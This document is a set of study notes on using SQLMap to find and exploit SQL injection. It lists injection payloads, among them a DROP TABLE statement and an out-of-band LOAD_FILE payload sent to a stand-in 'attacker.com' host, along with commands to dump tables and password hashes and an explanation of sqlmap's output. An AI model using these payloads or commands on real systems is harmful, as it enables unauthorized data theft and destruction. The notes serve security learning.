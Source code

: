 # SQLMap
- Free & Open Source
- Written in Python
- **Used for exploiting SQL Injection (SQLi) vulnerabilities**

## Installation
The easy way:
`$ sudo apt install sqlmap`

The hard[er] way:
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# Then run it
$ python sqlmap.py
```

## Supported Databases

| Database            | Database         | Database        | Database           |
|---------------------|------------------|-----------------|--------------------|
| MySQL               | Oracle           | PostgreSQL      | Microsoft SQL Server |
| SQLite              | IBM DB2          | Microsoft Access| Firebird           |
| Sybase              | SAP MaxDB        | Informix        | MariaDB            |
| HSQLDB              | CockroachDB      | TiDB            | MemSQL             |
| H2                  | MonetDB          | Apache Derby    | Amazon Redshift    |
| Vertica             | Mckoi            | Presto          | Altibase           |
| MimerSQL            | CrateDB          | Greenplum       | Drizzle            |
| Apache Ignite       | Cubrid           | InterSystems Cache | IRIS             |
| eXtremeDB           | FrontBase        |                 |                    |

## Heavily Supported Databases

| Database            | Database         | Database        | Database           | Database      |
|---------------------|------------------|-----------------|--------------------|---------------|
| MySQL               | PostgreSQL      | Oracle          | Microsoft SQL Server | Sybase       |
| Vertica             | IBM DB2         | Firebird        | MonetDB            |               |


### Get help
`$ sqlmap -h`

### Get MORE help (advanced version)
`$ sqlmap -hh`

## Types of SQL Injections

- The default is: `BEUSTQ`
  - B: Boolean-based blind
    - Ex. `AND 1=1`
    - Considered to be the most common type of SQLi vulnerability
  - E: Error-based
    - Ex. `AND GTID_SUBSET(@@version,0)`
    - Considered to be the fastest injection type, as it works by retrieving data in chunks
  - U: Union query-based
    - Ex. `UNION ALL SELECT 1,@@version,3`
    - Considered to be the fastest injection type
    - Ideally, we could get the entire database in one command
  - S: Stacked queries
    - Ex. `; DROP TABLE users`
    - Also known as "piggy backing"
    - "Stacking" must be supported by the database we are attacking
  - T: Time-based blind
    - Ex. `AND 1=IF(2>1,SLEEP(5),0)`
    - Considerably slower than Boolean-based blind SQL injection is not applicable
  - Q: Inline queries
    - Ex. `SELECT (SELECT @@version) from`
    - Works as an imbedded query within another query
    - Uncommon, as the website must be written in a certain way

- Advanced:
  - Out-of-band
    - Ex. `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

# Usage

- To run a basic exploitation against a target, we can do: `$ sqlmap -u "https://<target>?<param>=1" --batch`

## Running SQLMap on an HTTP Request

### cURL
- It's not uncommon to mess up correct SQLi vulnerability detection through overcomplication or forgetting cookes
- We can simplify this process by:
  - Right-clicking on any given request in the Network (Monitor) panel in the Developer Tools
  - Clicking `Copy as cURL`
  - Replacing `curl` with `sqlmap`
- This may be seen as: `$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'`

#### GET/POST Requests
- `GET` parameters are privded with the usage of option `-u` / `--url`
- `POST` parameters are provided with the usage of option `--data`
  - Ex. `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`
  - In the above instance, `uid` and `name` will be tested for SQLi
  - If we are already confident, say `uid` was vulnerable, we could add `-p uid` or `*`
    - `sqlmap 'http://www.example.com/' --data 'uid=1&name=test' -p uid`
    - `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`

#### Full HTTP Requests
- If we need to use the full HTTP request, we can specify the `-r` flag, followed by the request
- We can find the request in `Burp`
  - Then, copy/paste this file into a file, and specify the file following the `-r` flag

Example HTTP Request (`req.txt`):
```
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

Then: `$ sqlmap -r req.txt`

#### Custom SQLMap Requests
- When running a custom SQLMap command, we will likely need a few switches
  - **Session Cookie**: We can specify the session cookie in a few ways
    - `$ sqlmap ... --cookie='PHPSESSID=<cookie>'`
    - `$ sqlmap ... -H='Cookie:'PHPSESSID=<cookie>'`
    - `$ sqlmap ... --header='Cookie:PHPSESSID=<cookie>'`
  - **Random Agent**: We can use the `--random-agent` switch to randomly select a user-agent header value
  - **Method**: We can specify the HTTP method (as there are many) with the `--method` switch
  - **We can SQLi exploit more than just parameters. We may also exploit any other header, such as cookies
    - `$ sqlmap ... --cookie='id=1*'`

#### Custom HTTP Requests
- It is good to note that we may not only structure HTTP requests as we normally do (eg. `id=1`), but we may also use JSON (eg. `{"id":1}`) and XML (eg. `<element><id>1</id></element>`)

## Handling SQLMap Errors

- Display Errors: `--parse-errors`
- Store the Traffic: `-t <output file`
- Verbose Output: `-v <level [eg. 6]>`
- Proxy: `--proxy` to redirect through a MiTM proxy, such as Burp

## Attack Tuning

- Every payload sent to the target consists of:
  - vector (eg, `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.
  - boundaries (eg `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.
    - `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`

### Level/Risk
- `--level`: 1-5 (default: 1)
- `--risk`: 1-3 (default 1)

### Advanced Tuning
- **Status Codes**
-   `--code=<code>`
  - `200`: TRUE
  - `500`: FALSE
- **Titles**
-   `--titles <title>` compares title of HTML page (<title> tag)
- **Strings**
  - `--string=<string>`
    - `<string>` may be a value such as success or failure, or something totally different
- **Text-only**
  - `--text-only`: only shows visible content (eg. not <script>, <style>, <meta>, etc tags)
- **Techniques**
  - `technique=<technique>`
    Ex. `--technique=BEU` for Boolean-Based Blind, Error-Based, and UNION-query payloads
- **UNION SQLi Tuning**
  - `union-cols=<number_of_cols>`
    - Ex. `--union-cols=17` if we know the number of columns of the vulnerable SQL query
  - `--union-char='<character>'`
  - `--union-from=<table>`
 
## Database Enumeration

### SQLMap Data Exfiltration

- SQLMap has a predefined set of queries for all supported DBMSes
  - `--banner`: Database version banner
  - `--current-user`: Current user name
  - `--current-db`: Current database name
  - `--is-dba`: Checking if the current user has DBA (administrator) rights
  - `--passwords`: Password hashes
  - `--hostname`:  Hostname
  - Ex. `$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`
  - `--tables -D <database>`: Look at a tables in database <database>
  - `--dump -T <table> -D <database>`: Look at data in table <table> in database <database>
  - `--dump -T <table> -D <database> **-C <column>,<column2>**`: Only show certain columns
  - `--dump -T <table> -D <database> **--start=2 --stop=3**`: Specify start and stop rows (inclusive)
  - `--dump -T <table> -D <database> **--where="<condition>"**`: Get content of table based on WHERE condition
  - `--dump -D <database> --exclude-sysdbs`: Exclude system databases
  
**Advanced Commands**
- `--schema`: Retrieve the structure of all tables
- `--search <query>`: Search for databases, tables, and columns of interest
  - Ex. `--search -T user`: Search tables containing `user` keyword
- 



# Understanding the output

- Common messages you may receive include:
  - **URL content is stable**: `target URL content is stable`
    - No major changes between responses in case of continuous identical requests
  - **Parameter appears to be dynamic**: `GET parameter '<param>' appears to be dynamic`
    - A "dynamic" parameter is one that would result in a change in response
      - This is desirable (as it is easy to determine
      - The parameter may be linked to a database
      - If the parameter is static, it may be an indicator the vvalue of the tested parameter is nont processed by the target
  - **Parameter might be vulnerable to XSS attacks**: `heuristic (XSS) test shows that GET parameter '<parameter>' might be vulnerable to cross-site scripting (XSS)`
    - This is an example of a DMBS error
    - Good indication of potential SQLi
    - SQLMap sent an intentionally invalid value (eg. ?<parameter>=1",)..).))')
    - **Not proof of SQLi**
  - **Back-end DBMS is '...'**: `it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]`
    - SQLMap normally tests for all supported DBMSes
    - If there is a clear DBMS in use, we can narrow down payloads to that specific DBMS
  - **Level/risk values**: `for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]`
    - May extend specific tests for a DBMS beyond regular tests, assuming we clearly understand the target's DBMS
  - **Reflective values found**: `reflective value(s) found and filtering out`
    - Simply a warning that parts of the used payloads are found in the response
      - May cause problems to automation tools, as it represents junk
      - However, SQLMap filters out such junk before comparing the original page content (most of the time)
  - **Parameter appears to be injectable**: `GET parameter '<parameter>' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")`
    - Indicates the parameter is injectable
      - May be a false-positive
        - SQLMap performs extensive testing consisting of simple logic checks for removal of false-positive findings to check for this
    - `with --string="luther"`: indicates SQLMap recognized and user the papearance of constant string value `luther` in the response for distinguishing `TRUE` from `FALSE` responses
      - Important as, in such cases, there is no need for the usage of advacned internal mechanisms, such as dynamicity/reflection or fuzzy comparison of responses, which cannot be considered as false-positive
  - **Time-based comparison statistical model**: `time-based comparison requires a larger statistical model, please wait........... (done)`
      - SQLMap uses a statistical model for the recognition of regular and (deliberately) delayed target responses
      - For this model to work, there is a requirement to collect a sufficient number of regular response times
        - This way, SQLMap can statistically distinguish between the deliberate delay even in the high-latency network environments
  - **Extending UNION query injection technique tests**: `automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found`
    - UNION-query SQLi checks require considerably more requests for successful recognition of usable payload than other SQLi types
    - To lower the testing time per parameter, especially if the target does not appear to be injectable, the number of requests is capped to a constant value
    - If there is a good chance the target is vulnerable, especially as one other (potential) SQLi technique is found, SQLMap extends the default number of requests for UNION query SQLi, because of a higher expectancy of success
  - **Technique appears to be usable**: `ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test`
    - `ORDER BY` is checked for usability
  - **Parameter is vulnerable**: `GET parameter '<target>' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`
    - **One of the most important messages of SQLMap**
    - Means the parameter was found to be vulnerable to SQL injections
    - We may stop here, or continue on to find more vulnerabilities
  - **SQLMap identified injection points**: `sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:`
    - A lsit of all injection points with type, title, and payloads follows
      - Final proof of successful detection and exploitation of found SQLi vulnerabilities
      - SQLMap only lists those findings which are provably exploitable (ie. usable)
  - **Data logged to text files=**: `fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com`
    - Indicates the local file system location used for storing logs, sessions, output data, etc (of a target)
    - SQLMap attempts to reduce the required target requests as much as possible, depending on the session files' data








